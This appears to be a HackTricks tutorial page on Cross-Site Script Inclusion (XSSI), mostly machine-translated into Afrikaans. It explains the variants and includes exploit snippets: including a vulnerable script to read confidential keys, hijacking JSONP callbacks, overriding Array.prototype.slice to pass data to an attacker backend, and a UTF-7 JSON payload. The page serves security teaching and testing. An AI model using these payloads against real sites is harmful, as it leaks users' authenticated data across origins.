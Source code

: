 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Basic Information

**Cross-Site Script Inclusion (XSSI)** is 'n kwesbaarheid wat ontstaan uit die aard van die `script` tag in HTML. Anders as die meeste hulpbronne, wat onderhewig is aan die **Same-Origin Policy (SOP)**, kan skripte van verskillende domeine ingesluit word. Hierdie gedrag is bedoel om die gebruik van biblioteke en ander hulpbronne wat op verskillende bedieners gehoste is, te fasiliteer, maar dit stel ook 'n potensiële sekuriteitsrisiko in.

### Key Characteristics of **XSSI**:
- **Bypass of SOP**: Skripte is vrygestel van die **Same-Origin Policy**, wat dit moontlik maak om oor domeine ingesluit te word.
- **Data Exposure**: 'n Aanvaller kan hierdie gedrag benut om data wat via die `script` tag gelaai is, te lees.
- **Impact on Dynamic JavaScript/JSONP**: **XSSI** is veral relevant vir dinamiese JavaScript of **JSON with Padding (JSONP)**. Hierdie tegnologieë gebruik dikwels "ambient-authority" inligting (soos koekies) vir outentisering. Wanneer 'n skrip versoek na 'n ander gasheer gemaak word, word hierdie geloofsbriewe (bv. koekies) outomaties in die versoek ingesluit.
- **Authentication Token Leakage**: As 'n aanvaller 'n gebruiker se blaaiert kan mislei om 'n skrip van 'n bediener wat hulle beheer, aan te vra, mag hulle in staat wees om sensitiewe inligting wat in hierdie versoeke bevat is, te bekom.

### Types

1. **Static JavaScript** - Dit verteenwoordig die konvensionele vorm van XSSI.
2. **Static JavaScript with Authentication** - Hierdie tipe is uniek omdat dit outentisering vereis om toegang te verkry.
3. **Dynamic JavaScript** - Betrek JavaScript wat dinamies inhoud genereer.
4. **Non-JavaScript** - Verwys na kwesbaarhede wat nie direk JavaScript betrek nie.

**The following information is a sumary of [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Check it for further details.


### Regular XSSI
In hierdie benadering is private inligting ingebed binne 'n wêreldwyd toeganklike JavaScript-lêer. Aanvallers kan hierdie lêers identifiseer deur metodes soos lêerlees, sleutelwoordsoektogte, of gereelde uitdrukkings. Sodra dit geleë is, kan die skrip wat private inligting bevat, ingesluit word in kwaadwillige inhoud, wat ongeoorloofde toegang tot sensitiewe data moontlik maak. 'n Voorbeeld van 'n eksploitasiemetode word hieronder getoon:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamiese-JavaScript-gebaseerde-XSSI en Geverifieerde-JavaScript-XSSI
Hierdie tipes XSSI-aanvalle behels dat vertroulike inligting dinamies by die skrip gevoeg word in reaksie op 'n gebruiker se versoek. Opsporing kan gedoen word deur versoeke met en sonder koekies te stuur en die antwoorde te vergelyk. As die inligting verskil, kan dit die teenwoordigheid van vertroulike inligting aandui. Hierdie proses kan geoutomatiseer word met behulp van gereedskap soos die [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) Burp-uitbreiding.

As vertroulike data in 'n globale veranderlike gestoor word, kan dit uitgebuit word met behulp van soortgelyke metodes as dié wat in Gereelde XSSI gebruik word. As die vertroulike data egter in 'n JSONP-antwoord ingesluit is, kan aanvallers die terugroepfunksie oorneem om die inligting te verkry. Dit kan gedoen word deur óf globale voorwerpe te manipuleer óf 'n funksie op te stel wat deur die JSONP-antwoord uitgevoer moet word, soos hieronder gedemonstreer:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Vir veranderlikes wat nie in die globale naamruimte woon nie, kan *prototype tampering* soms uitgebuit word. Hierdie tegniek benut JavaScript se ontwerp, waar kode-interpretasie die prototipe-ketting deurloop om die aangeroepde eienskap te vind. Deur sekere funksies te oorskry, soos `Array` se `slice`, kan aanvallers nie-globale veranderlikes toegang en lek:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Further details on attack vectors can be found in the work of Security Researcher [Sebastian Lekies](https://twitter.com/slekies), who maintains a list of [vectors](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI
Takeshi Terada se navorsing stel 'n ander vorm van XSSI bekend, waar Non-Script lêers, soos CSV, oor oorsprong gelek word deur as bronne in 'n `script` tag ingesluit te word. Historiese voorbeelde van XSSI, soos Jeremiah Grossman se 2006 aanval om 'n volledige Google adresboek te lees en Joe Walker se 2007 JSON data lek, beklemtoon die erns van hierdie bedreigings. Daarbenewens beskryf Gareth Heyes 'n aanval variant wat UTF-7 geënkodeerde JSON insluit om die JSON formaat te ontsnap en skripte uit te voer, effektief in sekere blaaiers:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
